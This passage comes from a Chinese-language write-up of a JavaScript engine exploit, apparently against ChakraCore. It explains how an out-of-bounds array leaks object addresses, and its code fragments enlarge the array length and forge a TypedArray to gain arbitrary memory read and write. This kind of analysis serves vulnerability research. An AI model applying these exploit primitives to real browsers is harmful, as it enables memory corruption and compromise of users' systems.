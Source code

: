 内存就是下面这样，注意连个地址之间相隔0x3020,中间是占位产生的数据

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01780739d08bb67188.jpg)

arrint是NativeIntArray, 其seg的size为0x802，每个元素的长度为4byte，共为0x802*4+0x20+0x18=0x2040bytes长度，然后因为内存页对齐的原因为0x3000byte，所以中间空余了0x3000。此时我们可以通过arrint越界去读写arrvar的buffer部分了，这就已经完成对象地址的泄露了。



```
function getobjadd(myvar)
`{`
  arrvar[3]=myvar;
  uint32[0]=arrint[0xc06];
  return  arrint[0xc07]*0x100000000+uint32[0];    
`}`
```

4)紧接着通过调用fakeview 函数来伪造一个完全可控的TypedArray对象myview 实现任意地址读写。



```
var buffer1 =  new ArrayBuffer(0x100);
var view1    =  new Uint32Array(buffer1);
var view2    =  new Uint32Array(buffer1);
var view3    =  new Uint32Array(buffer1);
var view4    =  new Uint32Array(buffer1);
function fakeview( )
`{`
arrint.length=0xffff0000;  //arrint长度修改
```

[![](https://p3.ssl.qhimg.com/t019dedf979afd81102.jpg)](https://p3.ssl.qhimg.com/t019dedf979afd81102.jpg)



```
arrvar[0]=buffer1;
arrvar[1]=view2;
arrvar[2]=0;
//修改arrint 的segment.next 指向view2+0x28
write(0x00000d,0x001000,0x100000,arrint[0xc03]);
write(0x00000c,0x001000,0x100000,arrint[0xc02]+0x28);
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018002cce3034511cc.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0120ee693e9328e918.jpg)

View+0x28位置是存放的buffer1对象的地址:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0131069e947f4133a5.jpg)
